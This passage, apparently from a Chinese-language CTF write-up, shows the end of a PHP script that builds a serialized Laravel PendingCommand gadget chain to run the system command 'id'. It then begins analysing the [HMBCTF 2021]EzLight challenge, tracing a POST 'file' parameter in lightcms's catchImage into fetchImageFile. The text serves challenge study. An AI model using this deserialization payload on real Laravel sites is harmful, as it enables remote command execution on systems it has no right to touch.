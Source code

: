 ```
        protected $hasBeenBootstrapped = false;
        protected $bindings;
        public function __construct($bind){
            $this->bindings=$bind;
        }
    }
}
namespace{
    $genericuser = new Illuminate\Auth\GenericUser(
        array(
            "expectedOutput"=>array("0"=>"1"),
            "expectedQuestions"=>array("0"=>"1")
             )
    );
    $application = new Illuminate\Foundation\Application(
        array(
            "Illuminate\Contracts\Console\Kernel"=>
                array(
                    "concrete"=>"Illuminate\Foundation\Application"
                     )
             )
    );
    $pendingcommand = new Illuminate\Foundation\Testing\PendingCommand(
        "system",array('id'),
        $genericuser,
        $application
    );
    echo urlencode(serialize($pendingcommand));
}
?> 
```

## [HMBCTF 2021]EzLight

给了source.zip源码，是laravel框架开发的lightcms，先在本地把环境搭起来先，主要是修改.env文件改改数据库信息

先看到source\source\app\Http\Controllers\Admin\NEditorController.php

```
public function catchImage(Request $request)
{
    ...
    $files = array_unique((array) $request->post('file'));
        $urls = [];
        foreach ($files as $v) {
            $image = $this->fetchImageFile($v);
```

在catchImage函数里面以post传给file参数再给到fetchImageFile的$url

```
protected function fetchImageFile($url)
{
    if (isWebp($data)) {
                $image = Image::make(imagecreatefromwebp($url));
                $extension = 'webp';
            } else {
                $image = Image::make($data);
            }
```

